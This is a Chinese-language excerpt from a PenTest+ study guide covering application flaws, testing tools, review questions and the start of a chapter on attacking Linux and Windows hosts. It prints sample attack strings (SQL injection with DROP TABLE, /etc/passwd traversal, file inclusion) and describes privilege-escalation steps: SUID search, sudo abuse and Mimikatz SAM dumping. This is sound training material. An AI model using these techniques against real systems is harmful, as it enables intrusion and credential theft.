攻击者依赖于利用代码中的错误。开发人员必须理解这一点，并编写代码，使其能够抵御攻击者可能创建的意外情况，以测试代码的边界。例如，如果 Web 表单请求年龄作为输入，仅仅验证年龄是否为整数是不够的。攻击者可能在该字段中输入一个 50,000 位的整数，试图进行整数溢出攻击。开发人员必须预料到意外情况，并编写 `error handling` 代码，以介入并以安全的方式处理这些情况。缺乏错误处理例程可能会使代码面临不可接受的风险水平。

另一方面，过于冗长的错误处理例程也可能带来风险。如果错误处理例程过多地解释了代码的内部工作原理，它们可能会让攻击者找到利用代码的方法。例如，图 9.15 显示了一个网站上出现的错误消息，其中包含用于创建网页的 SQL 查询的详细信息。这可能允许攻击者确定表结构并尝试 SQL 注入攻击。

### 硬编码凭据

在某些情况下，开发人员可能会在源代码中包含用户名和密码。这种错误有两种变体。首先，开发人员可能会为应用程序创建一个硬编码的维护帐户，即使身份验证系统失败，也允许开发人员重新获得访问权限。这被称为 `backdoor` 漏洞，是有问题的，因为它允许任何知道后门密码的人绕过正常身份验证并获得对系统的访问权限。如果后门变得公开（或私下！）知晓，生产环境中的所有代码副本都会被泄露。


FIGURE 9.15 SQL error disclosure

硬编码凭据的第二种变体发生在开发人员在其源代码中包含其他服务的访问凭据时。如果该代码被故意或意外披露，这些凭据就会被外部人员知晓。当开发人员意外将包含 API 密钥或其他硬编码凭据的代码发布到公共代码仓库（例如 GitHub）时，这种情况经常发生。

### 竞态条件

`Race conditions` 发生在代码段的安全性取决于系统中事件发生的顺序时。`time‐of‐check‐to‐time‐of‐use (TOCTTOU or TOC/TOU)` 问题是一种竞态条件，当程序在资源请求之前很久检查访问权限时就会发生。例如，如果操作系统在用户登录时构建用户访问权限的综合列表，并在整个登录会话期间查询该列表，则存在 TOCTTOU 漏洞。如果系统管理员撤销特定权限，该限制将不会应用于用户，直到下次登录。如果用户在访问撤销发生时已登录，他们将无限期地拥有对资源的访问权限。用户只需保持会话打开数天，新限制将永远不会被应用。为了防止这种竞态条件，开发人员应在每次请求时评估访问权限，而不是缓存权限列表。

### 未受保护的 API

组织通常希望其他开发人员在其创建的平台上进行构建。例如，Twitter 和 Facebook 可能希望允许第三方应用程序开发人员创建将内容发布到用户社交媒体信息流的应用程序。为了实现这种创新，服务通常会创建 `application programming interfaces (APIs)` 以实现自动化访问。

如果未得到妥善保护，未受保护的 API 可能导致功能的未经授权的使用。例如，不使用适当身份验证的 API 可能允许任何知道 API URL 的人修改服务。不打算供公众使用的 API 应始终使用身份验证机制（例如 API 密钥）进行保护，并且仅通过加密通道访问，以保护这些凭据免受窃听攻击。

最早的 API 使用一种称为 `Simple Object Access Protocol (SOAP)` 的标准。SOAP 允许使用 XML 格式交换服务信息。SOAP 协议源于一种称为 XML 远程过程调用 (XML‐RPC) 协议的早期方法。SOAP 是多年的通用标准，但此后在流行程度上已被超越。

现代 API 大多使用一种称为 `Representational State Transfer (REST)` 的标准。REST 使用与 Web 通信相同的 HTTPS 协议。这使其能够提供安全的 API 端点，为客户端提供加密连接。这些功能使 RESTful API 非常易于访问，并导致了其压倒性的流行。

作为安全专业人员，您应该熟悉组织中使用的 API 技术，无论是开发人员发布服务还是用户消费服务。

在查看 API 安全性时，有两个主要考虑因素：

*   确保客户端和服务器之间的所有通信都已加密。当 API 通过 Web 服务运行时，这只需强制使用加密的 `HTTPS` 协议，而不是未加密且不安全的 `HTTP` 协议即可。

*   对于非公开 API，验证是否使用 API 密钥来限制访问，并且这些密钥的存储、分发和传输是以安全的方式进行的。任何获得另一用户 API 密钥的人，就远程服务而言，基本上可以成为该用户。

### 未签名代码

`Code signing` 为开发人员提供了一种向最终用户确认其代码真实性的方法。开发人员使用加密函数使用自己的私钥对代码进行数字签名，然后浏览器可以使用开发人员的公钥来验证该签名，并确保代码是合法的，且未被未经授权的个人修改。在缺乏代码签名的情况下，用户可能会无意中运行不真实的代码。

## 隐写术

`Steganography` 是将信息隐藏在另一个文件中的过程，以便肉眼不可见。它是将信息隐藏在显而易见之处的艺术，对于那些不希望他人知道他们甚至在进行通信的人来说，这是一种特别有价值的通信保密工具。

最常见的隐写术技术之一涉及将文本隐藏在图像文件中。图像文件非常大，包含数百万个单独的像素，每个像素都有单独的颜色。这就是为什么我们谈论照片的分辨率时使用兆像素。一张 3000 万像素的图像有 3000 万个单独的像素。


隐写术会对这些像素进行微小修改，也许将某个像素的色调调整一两个色阶，从而为其他信息创建隐藏空间。如果隐写术对那 3000 万像素中几千个像素的色调进行了微调，你在实际中永远无法察觉差异。然而，只要拥有合适的软件，知道图像中包含嵌入文本的人就可以检索出来。

例如，图 9.16(a) 显示了一张使用标准智能手机拍摄的照片。图 9.16(b) 显示了嵌入消息“这是一条秘密消息”的同一张图片。肉眼无法看出任何可见差异，但知道图像中包含隐藏消息的人可以检索它。取证工具在检测嵌入图像的文件的细微修改方面也可能很有用。


FIGURE 9.16 (a) Unaltered photograph (b) Photograph with hidden message embedded with steganography

`OpenStego` 和 `Steghide` 是用于在图像和其他二进制文件中嵌入隐写消息的流行开源工具。试图识别用于隐写消息的原始图像的分析人员可能会发现工具 `TinEye` 很有用。TinEye 执行反向图像搜索，允许分析人员将原始图像与隐写图像进行比较。`Metagoofil` 是分析人员的另一个有用工具；它可以从大量文件类型中提取元数据。

虽然图像确实为隐写术的使用提供了巨大的机会，但也可以在其他类型的文件中嵌入消息。`Coagula` 用于在音频文件中嵌入文本。`Sonic Visualiser` 是一种音频分析工具，可用于检测隐写工具所做的修改。`Snow` 使用文档中的空格和制表符来隐藏信息。

## 应用程序测试工具

无论应用程序开发团队多么有才华，代码中都会存在某种形式的缺陷。应用程序安全提供商 Veracode 基于其测试的应用程序的 2017 年度指标显示，其扫描的 40 万多个应用程序中有 77% 包含安全漏洞。这一数字表明，软件安全测试有着巨大的需求，需要继续更好地集成到软件开发生命周期中。

软件安全的这种糟糕状态为攻击者和渗透测试人员击败安全控制提供了机会。开发人员可用的自动化工具也可在渗透测试期间用于获取有价值的信息。

构成每个应用程序和程序的基础的源代码可能包含各种错误和缺陷，从编程和语法错误到业务逻辑、错误处理以及与其他服务和系统集成的问题。能够分析代码以了解代码的功能、其执行任务的方式以及程序本身可能出现缺陷的位置非常重要。这通常通过静态或动态代码分析以及模糊测试、故障注入、变异测试和压力测试等测试方法来完成。一旦对代码进行了更改并部署，就必须进行回归测试，以确保所实施的修复没有创建新的安全问题！

### 静态应用程序安全测试 (SAST)

`Static application security testing (SAST)` 是通过审查应用程序的代码来进行的。由于静态分析使用应用程序的源代码，它可以被视为一种白盒测试，测试人员可以完全看到代码。这可以让测试人员发现其他测试可能遗漏的问题，要么是因为逻辑未暴露给其他测试方法，要么是因为内部业务逻辑问题。

与许多其他方法不同，静态分析不运行程序；相反，它专注于了解程序的编写方式以及代码旨在做什么。静态代码分析可以使用自动化工具进行，也可以通过手动审查代码来进行——这一过程有时称为“代码理解”。自动化静态代码分析在发现已知问题方面非常有效，而手动静态代码分析有助于识别程序员引起的错误。

以下是您需要了解的用于 PenTest+ 考试的一些常见 SAST 工具：

*   `FindBugs` 和 `findsecbugs` 是用于对代码进行静态分析的 Java 软件测试工具。

*   `SonarQube` 是一个用于软件测试的开源持续检查工具。

*   `Yet Another Source Code Analyzer (YASCA)` 是另一个开源软件测试工具，包含针对多种语言的扫描器。YASCA 利用 `FindBugs` 等工具。

### 动态应用程序安全测试 (DAST)

`Dynamic application security testing (DAST)` 依赖于在提供输入的同时执行代码来测试软件。与静态代码分析类似，动态代码分析可以通过自动化工具或手动进行，但由于大多数动态代码测试过程需要进行大量测试，因此强烈偏好自动化测试。

#### 拦截代理

`Interception proxies` 是渗透测试人员和其他寻求评估 Web 应用程序安全性的人员的宝贵工具。因此，这些 Web 代理可以被归类为利用工具。它们在测试人员的系统上运行，并在请求发布到网络之前拦截从 Web 浏览器发送到 Web 服务器的请求。这允许测试人员手动操纵请求以尝试注入攻击。它们还允许渗透测试人员击败基于浏览器的输入验证技术。

其中一些工具，例如 Firefox Tamper Data 扩展程序，是作为应用程序代理运行的浏览器插件。还有其他工具可以实现相同的目的，并且与浏览器无关。例如，图 9.17 显示了流行的开源 Zed Attack Proxy (ZAP)。ZAP 是由 OWASP 协调的社区开发项目。ZAP 用户可以拦截从任何 Web 浏览器发送的请求，并在将其传递给 Web 服务器之前对其进行修改。


FIGURE 9.17 Zed Attack Proxy (ZAP)

Burp Proxy 显示在 图 9.18，是寻求拦截代理的网络安全分析人员的另一种选择。它是 PortSwigger 提供的商业 Web 应用程序安全工具包 Burp Suite 的一部分。虽然完整的 Burp Suite 需要付费许可证，但 Burp Proxy 目前作为名为 Burp Suite community edition 的免费版本的一部分提供。

#### 模糊测试

拦截代理允许 Web 应用程序测试人员手动修改发送到 Web 应用程序的输入，以尝试利用安全漏洞。`Fuzzers` 是自动化测试工具，可快速创建成千上万个输入变体，以测试手动技术无法实现的更多输入组合。它们的主要用途是作为预防工具，以确保识别并修复软件缺陷。

PenTest+ 考生应熟悉两种特定的模糊测试套件。首先，`Peach Fuzzer` 是一种商业产品，用于对许多不同的测试环境进行模糊测试。这些环境包括文件、网络协议、嵌入式设备、专有系统、驱动程序和物联网 (IOT) 设备。PenTest+ 知识体系还提到了 `american fuzzy lop (AFL)` 模糊测试工具。这是一种用于 Linux 系统的流行模糊测试工具包。AFL 在实际操作中的示例出现在 图 9.19。


FIGURE 9.18 Burp Proxy

#### 调试器


调试器在渗透测试中也发挥着重要作用。这些工具旨在支持开发人员排查其工作中的问题，同时也允许渗透测试人员对可执行文件进行动态分析。

在准备 PenTest+ 考试时，你应该熟悉几种常见的调试工具：

*   `Immunity Debugger` 专门设计用于支持渗透测试和恶意软件的逆向工程。

*   `GNU Debugger (GDB)` 是一种广泛使用的开源 Linux 调试器，支持多种编程语言。

    

    FIGURE 9.19 The american fuzzy lop performing fuzz testing

*   `OllyDbg` 是一种在汇编语言级别处理二进制代码的 Windows 调试器。

*   `WinDbg` 是另一种由 Microsoft 创建的 Windows 特定调试工具。

*   `Interactive Disassembler (IDA)` 是一种商业调试工具，适用于 Windows、Mac 和 Linux 平台。

*   `Covenant` 是另一种针对 .NET 应用程序的 Windows 特定命令和控制框架，包含一个调试工具。

渗透测试人员也可能尝试使用调试器和相关工具对代码进行反编译。此过程试图获取可执行文件并执行逆向工程，将其转换回源代码。此过程非常困难，且很少成功。

#### 扫描器

扫描器在应用程序和服务器测试中也发挥着重要作用。在 第 4 章，“漏洞扫描”中，你了解了漏洞扫描器在企业网络安全计划中的作用，以及它们如何适应渗透测试的使用。

`Gobuster` 是一种扫描工具，用于探测已部署的应用程序和服务器中的特定漏洞。`Gobuster` 的名称来源于它使用 Go 编程语言编写，并且是一个文件、目录和域名爆破工具。`爆破` 是识别服务器上未公布的文件和目录以及枚举域名有效子域的过程。渗透测试人员使用这些工具，试图发现可能对其工作有用的隐藏管理界面、测试页面、文档和其他资源。

图 9.20 显示了 `Gobuster` 在针对 [wiley.com](http://wiley.com) 域的 DNS 枚举模式下使用时的部分结果。


FIGURE 9.20 Gobuster DNS enumeration

### 移动工具

除了对传统应用程序进行逆向工程外，渗透测试人员可能会发现自己正在尝试利用移动设备上的漏洞。你应该熟悉三种移动设备安全工具以备考试之需：

*   `Drozer` 是一个用于 Android 设备和应用程序的安全审计和攻击框架。

*   `APKX` 和 `APK Studio` 对 Android 应用程序包 (APK) 进行反编译。

## 总结

应用程序漏洞为寻求在组织中立足或利用并横向移动其初始访问权限的渗透测试人员提供了沃土。应用程序可能存在各种问题，允许测试人员窃取数据、执行任意代码并完全控制系统和整个网络。

软件开发人员和安全专业人员用于测试代码的工具，也为黑客和渗透测试人员提供了绝佳的侦察工具。静态分析工具对源代码进行分析，而动态安全评估工具通过严格测试运行代码，以评估从各种场景中获得的输出。这两种技术共同为渗透测试人员提供了关于组织应用程序安全状态的详细信息。

## 考试要点

**了解注入漏洞如何允许攻击者与后端系统交互。** `SQL injection` 漏洞是最常见的示例，允许攻击者利用动态 Web 应用程序来访问底层数据库。防御注入漏洞的最佳方法是对任何用户提供的输入进行严格的输入验证。

**了解密码身份验证技术包含许多不安全之处。** 密码使用一种基于知识的薄弱身份验证方法，容易受到窃听、网络钓鱼和其他盗窃手段的影响。多因素技术通过生物识别或基于令牌的控制来补充密码安全性，从而增强身份验证系统。

**解释会话窃取攻击如何利用易受攻击的 Cookie。** 能够获取用于验证用户 Web 会话的会话 Cookie 的攻击者可能会劫持该会话并控制用户的帐户。用于身份验证的 Cookie 应始终安全生成，并且仅通过安全的加密通信通道传输，例如 `TLS‐protected HTTPS` 会话。

**了解 Web 应用程序漏洞多样且复杂。** 不安全的直接对象引用可能允许攻击者绕过授权方案，通过递增对象计数器或执行类似的 URL 操作来访问机密信息。目录遍历攻击允许攻击者在 Web 服务器的文件系统中导航。

**解释跨站点脚本和跨站点请求伪造漏洞利用如何允许攻击者劫持合法网站。** 跨站点脚本 (`XSS`) 攻击通过使用持久/存储内容或反射输入，在 otherwise 合法的网站中注入恶意脚本代码。跨站点请求伪造 (`CSRF`) 攻击利用用户同时登录多个网站的可能性，并使用恶意网站向合法网站发送命令。

**了解应用程序安全测试工具为攻击者、渗透测试人员以及开发人员提供洞察。** 静态应用程序安全测试工具对应用程序的源代码进行分析，以在不实际执行代码的情况下识别安全漏洞。动态应用程序安全测试工具确实执行代码，并通过许多不同的输入场景运行它，以试图发现漏洞。

## 实验练习

### 活动 9.1：应用程序安全测试技术

回顾本章开头介绍的 MCDS, LLC 场景。作为 MCDS 的安全顾问，您负责为 MCDS 使用的应用程序制定渗透测试计划。

在采访 MCDS 团队后，您了解到该组织开发各种定制应用程序。这些包括基于 Web 的客户门户、客户和销售人员用于跟踪订单的移动应用程序，以及支持组织制造流程的一些桌面应用程序。

制定执行此渗透测试的计划。请务必描述您将用于测试每种类型应用程序的具体工具，以及您将在每个环境中搜索的漏洞类型。

### 活动 9.2：使用 ZAP 代理

在此练习中，您将在系统上安装 ZAP 拦截代理，并使用它在请求发送到网站之前拦截和修改请求。

1.  访问 OWASP ZAP 项目主页 [`owasp.org/www-project-zap/`](https://owasp.org/www-project-zap/)。

2.  下载并安装适合您操作系统的 ZAP 版本。

3.  查看 OWASP ZAP `Getting Started Guide` [`www.zaproxy.org/getting-started`](https://www.zaproxy.org/getting-started)。

4.  使用 ZAP 拦截从浏览器发送到搜索引擎的请求。使用 ZAP 修改请求，更改发送到远程站点的搜索词。


5. 查看结果。您的浏览器是否显示了您在浏览器中输入的搜索词的结果，还是显示了您使用 ZAP 更改的搜索词的结果？

### 活动 9.3：创建跨站脚本漏洞

在此活动中，您将使用保存在本地计算机上的 HTML 页面创建一个跨站脚本漏洞。

1. 使用您选择的文本编辑器，创建一个包含您选择的一些简单内容的 HTML 文件。例如，您可能希望将代码模仿本章前面使用的示例页面：

```
<p>Hello everyone,</p>
```

```
<p>I am planning an upcoming trip to <A HREF=
```

```
'https://www.mlb.com/mets/ballpark'>Citi Field</A> to see the Mets take on the Yankees in the Subway Series.</p>
```

```
<p>Does anyone have suggestions for transportation?  I am staying in Manhattan and am only interested in <B>public transportation</B> options.</p>
```

```
<p>Thanks!</p>
```

```
<p>Mike</p>
```

2. 打开保存在本地计算机上的文件，并使用您喜欢的浏览器查看它。

3. 在文本编辑器中，修改您在第 1 步中创建的文件，以包含一个跨站脚本攻击。如果您需要帮助，可以参考本章前面“跨站脚本 (XSS)”部分中的示例。

4. 保存修改后的文件后，在浏览器中刷新页面。您是否看到了跨站脚本攻击的影响？

## 复习问题

您可以在附录中找到答案。

1. 在可行的情况下，以下哪种方法是防御注入攻击最有效的方法？

1. 基于浏览器的输入验证

2. 输入白名单

3. 输入黑名单

4. 签名检测

2. 检查以下网络图。在这个网络中，Web 应用程序防火墙 (WAF) 最合适的位置是什么？


1. 位置 A

2. 位置 B

3. 位置 C

4. 位置 D

3. Joe 正在检查其 Web 服务器的日志，并发现一个用户向 Web 应用程序发送了包含字符串 `WAITFOR` 的输入。该用户很可能试图进行哪种攻击？

1. 基于时间的 SQL 注入

2. HTML 注入

3. 跨站脚本

4. 基于内容的 SQL 注入

4. 以下哪个函数调用与 Linux 命令注入攻击密切相关？

1. `system()`

2. `sudo()`

3. `mkdir()`

4. `root()`

5. Tina 正在进行渗透测试，并试图获取用户帐户访问权限。以下哪项是获取用户帐户凭据的良好来源？

1. 社会工程学

2. 默认帐户列表

3. 来自受损网站的密码转储

4. 以上皆是

6. Kerberos 中哪种凭据通常被称为“黄金票据”，因为其潜在的广泛重用性？

1. 会话票据

2. 票据授予票据 (TGT)

3. 服务票据

4. 用户票据

7. Wendy 是一名渗透测试人员，希望进行会话劫持攻击。Wendy 需要获取哪些关键信息才能确保她的攻击成功？

1. 会话票据

2. 会话 Cookie

3. 用户名

4. 用户密码

8. Sherry 担心她组织中的 Web 应用程序支持未验证的重定向。以下哪种方法可以最大限度地降低这种攻击的风险？

1. 要求 HTTPS

2. 加密会话 Cookie

3. 实施多因素身份验证

4. 将重定向限制在她的域

9. Joe 检查他的 Web 服务器日志，发现有人向服务器上运行的应用程序发送了以下查询字符串：

```
http://www.mycompany.com/servicestatus.php?serviceID=892&serviceID=892' ; DROP TABLE Services;--
```

最可能尝试了哪种攻击？

1. 跨站脚本

2. 会话劫持

3. 参数污染

4. 中间人攻击

10. 进一步检查后，Joe 发现来自单个 IP 地址的对同一 URL 的数千个请求系列。以下是几个示例：

```
http://www.mycompany.com/servicestatus.php?serviceID=1
```

```
http://www.mycompany.com/servicestatus.php?serviceID=2
```

```
http://www.mycompany.com/servicestatus.php?serviceID=3
```

```
http://www.mycompany.com/servicestatus.php?serviceID=4
```

```
http://www.mycompany.com/servicestatus.php?serviceID=5
```

```
http://www.mycompany.com/servicestatus.php?serviceID=6
```

攻击者很可能试图利用哪种漏洞？

1. 不安全的直接对象引用

2. 文件上传

3. 未验证的重定向

4. 会话劫持

11. Joe 在 Web 服务器日志分析方面的冒险尚未结束。在继续审查日志时，他发现了以下请求：

```
http://www.mycompany.com/../../../etc/passwd
```

最可能尝试了哪种攻击？

1. SQL 注入

2. 会话劫持

3. 目录遍历

4. 文件上传

12. 哪种攻击依赖于用户通常在同一浏览器中同时登录许多网站这一事实？

1. SQL 注入

2. 跨站脚本

3. 跨站请求伪造 (XSRF)

4. 文件包含

13. 哪种跨站脚本攻击在安全专业人员检查浏览器中的 HTML 源代码时不可见？

1. 反射型 XSS

2. 存储型 XSS

3. 持久型 XSS

4. 基于 DOM 的 XSS

14. 以下哪种攻击是竞态条件利用的示例？

1. XSRF

2. XSS

3. TOCTTOU

4. SQLi

15. Tom 是一名软件开发人员，他创建出售给公众的代码。他希望向用户保证他们收到的代码确实来自他。他可以使用哪种技术来最好地提供这种保证？

1. 代码签名

2. 代码背书

3. 代码加密

4. 代码混淆

16. 以下哪种工具可用于调试在 Mac 平台上编写的应用程序？

1. IDA

2. OllyDbg

3. GDB

4. Covenant

17. Norm 正在对 Web 应用程序进行渗透测试，并希望在输入离开浏览器之前操纵发送到应用程序的输入。以下哪种工具可以帮助他完成此任务？

1. AFL

2. ZAP

3. GDB

4. DOM

18. 哪种控制最常用于保护对 API 接口的访问？

1. API 密钥

2. 密码

3. 质询-响应

4. 生物识别身份验证

19. 以下哪种是与 Linux 系统兼容的调试工具？

1. WinDbg

2. GDB

3. OllyDbg

4. SonarQube

20. 在渗透测试期间，Bonnie 在 Web 服务器日志中发现测试人员尝试访问以下 URL：

```
http://www.mycompany.com/sortusers.php?file=C:\uploads\attack.exe
```

他们最可能尝试了哪种攻击？

1. 反射型 XSS

2. 持久型 XSS

3. 本地文件包含

4. 远程文件包含

WileyPRE

# 第 10 章

攻击主机、云技术和专用系统


# 攻击主机

在本书中，你学习了针对应用程序和服务的利用技术，以及从网络中心攻击到社会工程学攻击目标组织工作人员等多种攻击方法。现在你已经来到了最后一组主要的利用目标：单个系统、专用系统和云技术。

成功攻击这些目标通常依赖于你在本书中学习的技术组合。首先，你需要知道你正在针对的系统类型及其可能存在的任何漏洞。然后你可以确定最有可能成功的攻击技术和利用方法。不幸的是，一旦你绕过主机的安全防护，你通常会发现自己处于权限受限的账户或服务中。这意味着，如果你想在攻击主机时取得真正的成功，提升权限、收集用户 ID 和哈希密码等额外信息、探索配置不当、管理混乱或默认配置的系统，并采用各种其他攻击，都必须成为你武器库的一部分。

在本章中，请记住，即使是最大规模的攻破，通常也始于目标组织防御中的一个相对较小的裂缝。一个配置不当的系统、设备或服务可能提供一个立足点，从中你可以转移到不同的安全区域，这可能就是你实现渗透测试目标所需要的全部！

我们将从本章开始，介绍攻击运行各种常见操作系统的主机的常见方法，因为用于这些系统的基本概念和技术通常可以迁移到 PenTest+ 考试在子领域 3.4 和 3.5 中关注的云技术和专用系统。

## Linux

Linux 有多种版本，从面向企业的发行版（如 Red Hat Enterprise Linux）到专用硬件中的嵌入式系统（如物联网（IoT）设备），以及拥有自己的 Linux 版本的云平台（如 Amazon Linux）。每个发行版和版本的行为可能不同，具有不同的目录结构、配置、内核等。这种复杂性意味着，在大型多样化环境中，防御者更难保护 Linux 系统，但这也意味着，当你使用 Linux 时，需要更加了解不同 Linux 版本之间的差异。

幸运的是，为了 PenTest+ 考试的目的，你可以主要关注大多数现代 Linux 系统（包括云主机、嵌入式系统和 IoT 设备）共享的常见漏洞、利用方法和攻击方法。在阅读以下页面时，请牢记你可能在不同发行版和专用 Linux 版本之间发现的差异，并记住，除了更典型的信息收集活动外，你的情报收集可能还需要包括针对特定版本的漏洞和攻击研究。

### SUID/SGID 程序

设置用户 ID（SETUID，或 SUID）和设置组 ID（GUID）位告诉 Linux，它们被设置的可执行文件应以文件所有者的身份运行，而不是以启动它的用户身份运行。如果你是 root，在 Linux 系统上查找这些文件很容易；你可以简单地使用 `find` 命令：

```
find / -perm -4000 
```

这将显示所有 SUID 文件和文件夹。使用 `chmod` 设置 UID 和 GID（用户 ID 和组 ID）位也很容易，只需发出 `u+s` 或 `g+s` 标志，移除它们只需根据需要使用 `u-s` 或 `g-s`。

许多常见的 Linux 可执行文件如果设置了 SUID 权限，可以用于权限提升。这些包括 `cp`、`find`、Bash shell、`more` 和 `less`、像 `vim` 和 `nano` 这样的编辑器，甚至旧版本的 `Nmap`。仅仅在系统上找到这些应用程序并不能保证你能够利用它们，所以请确保你查找 SUID 或 GUID 位。图 10.1 显示了 Kali Linux 中 SUID 文件的列表。包含 SUID 和 GUID 位的可执行文件列表会因发行版而异，如果管理员不小心，系统可能会随时间积累更多。

深入挖掘，你可以在 图 10.2 中看到更详细的列表。请注意我们之前通过快速搜索列出的每个文件上设置的 `s` 标志。

这些可执行文件中的每一个都可能是潜在的攻击向量，但如果你发现了 `find`、Bash、`less` 或 `more`，或者另一个需要写入任意数据或执行其他文件的应用程序，你更有可能成功利用 SETUID 应用程序。


FIGURE 10.1 SUID files in Kali


FIGURE 10.2 SUID files with details

### 不安全的 SUDO

Linux Super User Do，或 `sudo` 命令允许用户基于 `sudoers` 文件（通常位于 `/etc`）中的设置提升他们的权限。当调用 `sudo` 命令时，会检查 `sudoers` 文件，如果允许，则授予权限。

如果你能识别并攻破一个可以以 root 身份运行程序的 `sudo` 可用用户账户，你可能能够利用该访问权限以 root 身份运行 shell。访问以 root 身份运行 Python 或 Perl 有时是系统上脚本所必需的，而一个原本权限较低的账户可能具有此功能。在 图 10.3 中，一个名为 `sudodemo` 的用户拥有以 root 身份运行 Perl 的权限，并使用这些权限打开了一个 Bash shell。


FIGURE 10.3 Abusing `sudo` rights

即使是看似无害的运行文件权限也可能允许这种类型的提权。Aarti Singh 在 `http://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights` 提供了一长串滥用 `sudo` 权限的方法。

### Shell 升级攻击

一些 Linux 系统使用受限 shell 来使用户保持在安全沙箱中。受限 shell 限制可以使用的命令或应用程序。常见的例子包括在 Bash shell 中使用 `rbash` 或 `bash -r`，在 Korn shell 中使用 `rksh` 或 `ksh -r`，以及在 Bourne shell 和类似 shell 中使用 `sh -r` 或 `rsh`。


# 受限 Shell

受限 Shell 通常会阻止用户更改目录、设置 `PATH` 或 `SHELL` 变量、指定绝对路径名以及重定向输出。有些甚至可能会添加额外的限制，这在尝试从受限账户攻破目标主机时可能会令人沮丧！

幸运的是，突破受限 Shell 可能只需启动一个新的不受限 Shell，或者使用像 vi 这样带有内置 Shell 功能的实用程序来逃离受限 Shell。一般来说，当你面对受限 Shell 时，应该执行以下操作：

*   检查你可以运行的命令，特别是寻找 SUID 命令。

*   检查是否可以使用 `sudo` 以及可以执行哪些 `sudo` 命令。

*   检查是否可以运行 Perl、Python 或 Ruby 等语言。

*   检查是否可以使用 `|` 或 `>` 等重定向运算符，以及单引号、双引号或其他执行标签等转义字符。

## Linux 内核漏洞利用

Linux 内核是 Linux 操作系统的核心，它处理从输入和输出、内存管理到与处理器交互，以及与键盘和鼠标等外设交互的所有事务。利用内核可以获得对系统的强大访问权限，使得 Linux 内核漏洞利用成为渗透测试人员（以及其他攻击者！）在能够成功实施时的首选工具。

CVE 列表（[`cve.mitre.org`](https://cve.mitre.org)）根据漏洞类型对 Linux 内核漏洞利用进行分类，类别包括拒绝服务、代码执行、溢出、内存损坏、目录遍历、绕过、信息泄露和权限提升漏洞，这些漏洞都曾在内核中出现过。拒绝服务攻击是最常见的漏洞利用类型，但对大多数渗透测试人员来说，它们也是最不感兴趣的。正如你所料，代码执行、权限提升和绕过攻击最有可能对渗透测试人员有用。

在大多数情况下，最关键的 Linux 内核漏洞利用需要本地访问系统，这意味着要利用它们，你必须事先获得对系统的访问权限。执行内核漏洞利用的难度以及大多数内核补丁都需要系统重启的事实，也意味着许多管理员会推迟内核补丁。这为能够获得系统访问权限的渗透测试人员提供了机会，因为由于被认为风险较低，内核漏洞可能不会被修补。

你可以用来测试 Linux 系统潜在内核问题的快速检查方法是：首先使用 `lsb_release ‐a` 检查操作系统版本，然后使用 `uname ‐a` 检查内核版本。这两个简单的命令可以快速了解正在使用的 Linux 发行版和内核版本，如 图 10.4 所示。


FIGURE 10.4 检查 Linux 内核版本信息

## Windows

Windows 系统继续构成大多数企业工作站以及许多环境中大量服务器的主体。这意味着，成功的渗透测试人员需要了解针对 Windows 系统的广泛常见攻击和漏洞利用技术及方法。正如你学习如何攻击的 Linux 系统一样，获取密码和攻击 Windows 特定漏洞的技能必须在你的工具箱中。

### 获取凭据

虽然有许多方法可以攻击 Windows 系统，但 PenTest+ 考试特别针对几种主要工具和技术供考生使用。你应该熟悉这些常见目标，以及使用 Metasploit 或类似工具从中收集凭据的典型方法。

#### 获取和使用哈希值

Windows 经常依赖 NT LAN Manager (NTLM) 密码哈希进行身份验证，Mimikatz 等工具可以使检索哈希值变得相对简单。NTLM 哈希值未加盐，这意味着你可以经常破解 NTLM 哈希值以检索用户密码——但如果你不需要实际密码，只需将哈希值本身呈现给服务即可，为什么要费心呢？

`Pass‐the‐hash attacks` 依赖于将哈希值注入 LSASS 或将 NTLM 哈希值呈现给 SMB 或 WMI 等服务。Sysinternals `psexec` 工具可以直接接受 NTLM 哈希值作为参数而不是密码，这使得此操作更加容易。

#### LSA 秘密

`LSA secrets` 注册表位置 `HKEY_LOCAL_MACHINE/Security/Policy/Secrets` 包含以加密形式存储的登录用户密码，但加密密钥存储在注册表的父级 Policy 键中。如果你获得注册表的管理访问权限，你可以轻松恢复加密密码及其密钥。

#### SAM 数据库

Windows 安全帐户管理器 (SAM) 数据库是你在访问 Windows 系统后可能首先攻击的地方之一。SAM 包含密码哈希值，可以使用 Mimikatz 或 Metasploit 内置的 Mimikatz 功能轻松转储，如 图 10.5 所示。请注意，首先设置了调试，然后将权限提升到 NT Authority/System，最后转储了 SAM。如果没有适当的权限，此过程将无法工作！


FIGURE 10.5 使用 Mimikatz 转储 Windows SAM

#### Windows 内核漏洞利用

与 Linux 类似，Windows 内核可以被攻击以获得对 Windows 系统的高级访问权限。Metasploit 的 `post/windows/gather/enum:patches` 模块将列出任何缺失的补丁，然后你可以参考漏洞数据库来确定是否存在针对未修补问题的漏洞利用。Metasploit 还针对许多随时间发现的 Windows 内核漏洞拥有漏洞利用模块，允许你评估缺陷，然后在获得系统访问权限后尝试利用它们。

每个版本的 Windows 桌面和服务器操作系统都发现了内核缺陷。正如我们在 Linux 内核漏洞利用中看到的那样，大多数 Windows 内核漏洞利用也需要本地访问系统才能利用，这使得 Windows 内核漏洞利用在你已经获得系统访问权限后最有用。

# 跨平台漏洞利用

虽然许多主机漏洞仅适用于特定应用程序或操作系统，但某些缺陷几乎适用于所有系统。最常见的漏洞利用是那些针对多平台应用程序、不安全文件或文件夹权限等配置问题、配置文件中发现的数据收集机会、默认帐户设置，以及硬件和软件键盘记录器的漏洞利用。

### 不安全的文件/文件夹权限

作为渗透测试人员，你通常会发现，仔细审查你已获得访问权限的计算机的文件系统将提供有用信息。用户管理的文件系统是查找配置错误的权限结构或访问权限过于宽泛的文件和文件夹的容易之处。系统管理员也无法免受此问题的影响。事实上，许多管理员在故障排除时采取的第一步是删除限制性权限，而记住将它们放回原处，或正确地将它们放回原处，往往很困难。


虽然在 Linux 中使用 `ls` 搜索目录，然后对输出使用 `grep` 搜索弱权限很容易，但在 Windows 中搜索不良文件权限起初可能看起来更困难。幸运的是，`AccessEnum` 和 `Accesschk` Sysinternals 工具可以提供易于审查的报告。PowerShell 的 `Get-Acl` 命令可以提供详细信息，而 `icacls` 命令显示给定文件或文件夹上权限继承的工作方式。

### Stored Credentials

